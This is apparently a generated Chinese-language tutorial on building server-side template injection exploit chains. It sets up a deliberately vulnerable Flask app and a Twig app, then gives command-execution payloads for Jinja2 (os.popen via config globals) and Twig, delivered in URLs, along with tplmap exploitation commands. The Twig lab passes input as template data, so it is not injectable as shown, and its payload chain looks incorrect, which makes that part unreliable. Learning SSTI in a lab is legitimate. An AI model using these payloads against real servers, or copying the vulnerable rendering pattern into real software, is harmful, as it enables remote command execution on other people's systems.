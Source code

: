# 模板注入(SSTI)利用链构造的基本概念

## 1. 技术原理解析

### 1.1 模板注入的基本概念
模板注入（Server-Side Template Injection, SSTI）是一种服务器端漏洞，攻击者通过向模板引擎注入恶意代码，从而在服务器端执行任意命令或访问敏感数据。模板引擎通常用于动态生成HTML、XML或其他格式的文档，常见的模板引擎包括Jinja2、Twig、Freemarker、Velocity等。

### 1.2 模板注入的底层实现机制
模板引擎的工作原理是将模板文件与数据结合，生成最终的输出。模板引擎通常支持变量替换、条件判断、循环等操作。攻击者通过构造特定的输入，使得模板引擎在解析模板时执行恶意代码。

例如，在Jinja2模板引擎中，`{{ 7 * 7 }}`会被解析为`49`。如果攻击者能够控制模板中的输入，他们可以注入类似`{{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}`的代码，从而执行系统命令。

### 1.3 模板注入的类型
模板注入可以分为两类：
1. **显式模板注入**：模板引擎直接解析用户输入，攻击者可以直接注入恶意代码。
2. **隐式模板注入**：模板引擎间接解析用户输入，攻击者需要通过特定的方式触发模板解析。

## 2. 变种和高级利用技巧

### 2.1 不同模板引擎的利用技巧
不同的模板引擎有不同的语法和特性，攻击者需要根据目标模板引擎的特点构造利用链。

- **Jinja2**：利用`__class__`、`__globals__`等属性访问Python内置模块，执行系统命令。
- **Twig**：利用`_self`、`_context`等属性访问PHP内置函数，执行系统命令。
- **Freemarker**：利用`new`关键字创建Java对象，执行系统命令。
- **Velocity**：利用`#set`指令访问Java内置类，执行系统命令。

### 2.2 绕过过滤和限制
模板引擎通常会对用户输入进行过滤或限制，攻击者需要通过编码、拼接等方式绕过这些限制。

- **编码绕过**：将恶意代码进行URL编码、Base64编码等，绕过过滤。
- **拼接绕过**：将恶意代码拆分为多个部分，通过拼接方式绕过过滤。
- **上下文绕过**：利用模板引擎的上下文特性，构造特定的输入绕过限制。

### 2.3 高级利用链构造
攻击者可以通过构造复杂的利用链，实现更高级的攻击目标，如文件读写、数据库操作、远程代码执行等。

- **文件读写**：利用模板引擎的文件操作功能，读取或写入服务器文件。
- **数据库操作**：利用模板引擎的数据库操作功能，执行SQL查询或修改数据库内容。
- **远程代码执行**：利用模板引擎的远程调用功能，执行远程代码或命令。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 攻击步骤
1. **识别目标**：确定目标应用程序使用的模板引擎类型。
2. **构造Payload**：根据目标模板引擎的特点，构造恶意Payload。
3. **注入Payload**：将Payload注入到目标应用程序的输入点。
4. **执行攻击**：触发模板解析，执行恶意代码。
5. **获取结果**：获取攻击结果，如命令执行输出、文件内容等。

### 3.2 实验环境搭建指南
为了进行模板注入的实验，可以搭建一个简单的Web应用程序，使用常见的模板引擎。

#### 3.2.1 搭建Jinja2实验环境
1. 安装Python和Flask框架：
   ```bash
   pip install flask
   ```
2. 创建一个简单的Flask应用程序：
   ```python
   from flask import Flask, request, render_template_string

   app = Flask(__name__)

   @app.route('/')
   def index():
       name = request.args.get('name', 'Guest')
       template = f"Hello, {name}!"
       return render_template_string(template)

   if __name__ == '__main__':
       app.run(debug=True)
   ```
3. 运行应用程序：
   ```bash
   python app.py
   ```

#### 3.2.2 搭建Twig实验环境
1. 安装PHP和Twig库：
   ```bash
   composer require twig/twig
   ```
2. 创建一个简单的PHP应用程序：
   ```php
   <?php
   require 'vendor/autoload.php';

   $loader = new \Twig\Loader\ArrayLoader([
       'index' => 'Hello, {{ name }}!',
   ]);
   $twig = new \Twig\Environment($loader);

   $name = $_GET['name'] ?? 'Guest';
   echo $twig->render('index', ['name' => $name]);
   ```
3. 运行应用程序：
   ```bash
   php -S localhost:8000
   ```

## 4. 实际的命令、代码或工具使用说明

### 4.1 使用Jinja2执行系统命令
在Jinja2实验环境中，构造以下Payload：
```
{{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}
```
访问以下URL：
```
http://localhost:5000/?name={{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}
```
服务器将返回当前用户的用户名。

### 4.2 使用Twig执行系统命令
在Twig实验环境中，构造以下Payload：
```
{{ _self.env.getFilter('system')('whoami') }}
```
访问以下URL：
```
http://localhost:8000/?name={{ _self.env.getFilter('system')('whoami') }}
```
服务器将返回当前用户的用户名。

### 4.3 使用工具自动化检测和利用
可以使用工具自动化检测和利用模板注入漏洞，如`tplmap`。

1. 安装`tplmap`：
   ```bash
   git clone https://github.com/epinna/tplmap.git
   cd tplmap
   pip install -r requirements.txt
   ```
2. 使用`tplmap`检测和利用模板注入漏洞：
   ```bash
   python tplmap.py -u "http://localhost:5000/?name=*"
   ```
   `tplmap`将自动检测目标应用程序使用的模板引擎，并尝试利用模板注入漏洞。

## 5. 总结
模板注入是一种严重的服务器端漏洞，攻击者可以通过构造利用链执行任意命令或访问敏感数据。理解模板引擎的工作原理和利用技巧，对于防御和检测模板注入漏洞至关重要。通过搭建实验环境和使用自动化工具，可以深入学习和实践模板注入的利用和防御技术。

---

*文档生成时间: 2025-03-11 17:37:30*
